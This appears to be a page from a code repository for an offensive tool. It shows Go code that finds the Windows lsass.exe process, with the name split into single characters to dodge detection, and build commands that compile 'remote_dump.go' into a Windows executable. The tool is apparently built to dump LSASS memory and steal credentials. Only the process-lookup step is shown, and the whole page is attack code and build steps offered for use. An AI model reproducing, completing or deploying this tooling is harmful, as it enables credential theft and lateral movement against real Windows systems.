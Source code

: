 ```golang 

// Retrieve the PID of the lsass.exe process
func getProcessPid() int {
	// Create a snapshot of all processes
	snapshot, _, _ := procCreateToolhelp32W.Call(uintptr(TH32CS_SNAPPROCESS), 0)
	if snapshot == 0 {
		log.Fatal("Failed to create process snapshot")
	}
	defer syscall.CloseHandle(syscall.Handle(snapshot))

	var pe32 PROCESSENTRY32
	pe32.Size = uint32(unsafe.Sizeof(pe32))

	// Retrieve information about the first process encountered in the snapshot
	ret, _, _ := procProcess32First.Call(snapshot, uintptr(unsafe.Pointer(&pe32)))
	if ret == 0 {
		log.Fatal("Failed to get process entry")
	}

	// Target process name
	name := "l" + "s" + "a" + "s" + "s" + "." + "e" + "x" + "e"

	// Iterate through the process list to find the target process
	for {
		processName := syscall.UTF16ToString(pe32.szExeFile[:])
		if processName == name {
			fmt.Printf("Found process with PID: %d\n", pe32.th32ProcessID)
			return int(pe32.th32ProcessID)
		}
		ret, _, _ := procProcess32Next.Call(snapshot, uintptr(unsafe.Pointer(&pe32)))
		if ret == 0 {
			break
		}
	}

	log.Fatal("process not found")
	return 0
}

```

```bash

# Setup Golang Environment 
go env -w GO111MODULE=auto

# From within source directory 
go mod init main
go mod tidy

# Compile Go code into Windows PE
GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -o test.exe remote_dump.go
```